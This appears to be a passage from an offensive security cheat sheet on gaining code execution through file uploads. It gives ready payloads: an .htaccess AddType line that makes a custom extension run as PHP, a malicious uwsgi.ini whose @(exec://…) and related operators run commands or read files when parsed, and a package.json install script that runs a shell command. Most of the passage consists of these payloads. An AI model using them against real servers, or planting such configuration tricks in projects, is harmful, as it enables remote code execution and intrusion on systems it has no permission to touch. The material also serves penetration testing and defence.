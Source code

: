 The `AddType` directive in an `.htaccess` file is used to specify the MIME (Multipurpose Internet Mail Extensions) type for different file extensions on an Apache HTTP Server. This directive helps the server understand how to handle different types of files and what content type to associate with them when serving them to clients (such as web browsers).  

Here is the basic syntax of the AddType directive:

```ps1
AddType mime-type extension [extension ...]
```

Exploit `AddType` directive by uploading an .htaccess file with the following content.

```ps1
AddType application/x-httpd-php .rce
```

Then upload any file with `.rce` extension.

#### WSGI: uwsgi.ini

uWSGI configuration files can include “magic” variables, placeholders and operators defined with a precise syntax. The ‘@’ operator in particular is used in the form of @(filename) to include the contents of a file. Many uWSGI schemes are supported, including “exec” - useful to read from a process’s standard output. These operators can be weaponized for Remote Command Execution or Arbitrary File Write/Read when a .ini configuration file is parsed:

Example of a malicious `uwsgi.ini` file:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

When the configuration file will be parsed (e.g. restart, crash or autoreload) payload will be executed.

#### Dependency Manager

Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.

* package.json

    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
